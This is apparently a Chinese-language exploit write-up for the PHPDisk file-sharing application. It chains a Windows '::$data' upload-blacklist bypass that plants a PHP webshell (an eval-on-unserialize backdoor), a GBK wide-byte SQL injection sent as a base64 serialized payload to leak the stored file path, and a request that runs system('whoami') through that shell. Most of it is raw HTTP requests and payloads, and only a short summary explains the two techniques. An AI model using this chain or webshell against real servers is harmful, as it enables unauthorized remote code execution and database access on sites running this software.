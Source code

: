 # phpdisk sql注入(gbk)&前台getshell（win&gbk）

## 判断系统与版本

```
http://test.test.com/AjaX.php  

http://test.test.com/  gbk
```

## ::data上传

```
POST /mydisk.php?item=upload&is_public=0&cate_id=0&subcate_id=0&folder_node=0&folder_id=-1&uid=1 HTTP/1.1
Accept: text/*
Content-Type: multipart/form-data; boundary=----------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
User-Agent: Shockwave Flash
Host: test.test.com
Content-Length: 906
Proxy-Connection: Keep-Alive
Pragma: no-cache


------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="Filename"

shell.jpg
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="desc11"

desc112
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="task"

doupload
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="file_id"

0
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="upload_file"; filename="shell.php::$data"
Content-Type: application/octet-stream


<?php
class foo{
    public $data;
    function __destruct()
    {
        eval($this->data);
    }
}
$file_name=$_GET['id'];
unserialize($file_name);
?>
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="Upload"

Submit Query
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3--

```


## 注入获取路径

```
<?php
echo base64_encode(serialize(array("file_id"=>"2333","file_name"=>"錦',`in_share`=1,`file_description`=(select x.a from (select concat(file_store_path,file_real_name)a from pd_files where file_name=0x7368656c6c)x)#")))

//YToyOntzOjc6ImZpbGVfaWQiO3M6NDoiMjMzMyI7czo5OiJmaWxlX25hbWUiO3M6MTQ4OiLpjKYnLGBpbl9zaGFyZWA9MSxgZmlsZV9kZXNjcmlwdGlvbmA9KHNlbGVjdCB4LmEgZnJvbSAoc2VsZWN0IGNvbmNhdChmaWxlX3N0b3JlX3BhdGgsZmlsZV9yZWFsX25hbWUpYSBmcm9tIHBkX2ZpbGVzIHdoZXJlIGZpbGVfbmFtZT0weDczNjg2NTZjNmMpeCkjIjt9
?>

```


```

http://test.test.com/ajax.php?action=uploadCloud

data=YToyOntzOjc6ImZpbGVfaWQiO3M6NDoiMjMzMyI7czo5OiJmaWxlX25hbWUiO3M6MTQ4OiLpjKYnLGBpbl9zaGFyZWA9MSxgZmlsZV9kZXNjcmlwdGlvbmA9KHNlbGVjdCB4LmEgZnJvbSAoc2VsZWN0IGNvbmNhdChmaWxlX3N0b3JlX3BhdGgsZmlsZV9yZWFsX25hbWUpYSBmcm9tIHBkX2ZpbGVzIHdoZXJlIGZpbGVfbmFtZT0weDczNjg2NTZjNmMpeCkjIjt9
```

## getshell

```
http://test.test.com/viewfile.php?file_id=2333

2019/08/08/ca14aabe6bc8a343df6d596070568e1a


http://test.test.com/filestores/2019/08/08/ca14aabe6bc8a343df6d596070568e1a.php?id=O:3:%22foo%22:1:{s:4:%22data%22;s:17:%22system(%27whoami%27);%22;}
```

## 总结

本次漏洞有两个有趣的点：
1.windwos下文件上传黑名单策略的::$data绕过
2.utf转gbk情形下的sql宽字节注入：“錦”这个字，它的utf-8编码是0xe98ca6，它的gbk编码是0xe55c而后面的'被addslashes变成了%5c%27，这样组合起来就是%e5%5c%5c%27，两个%5c就是\，正好把反斜杠转义了，导致’逃逸出单引号，产生注入。

## refer


()[https://xz.aliyun.com/t/5594]
()[https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html]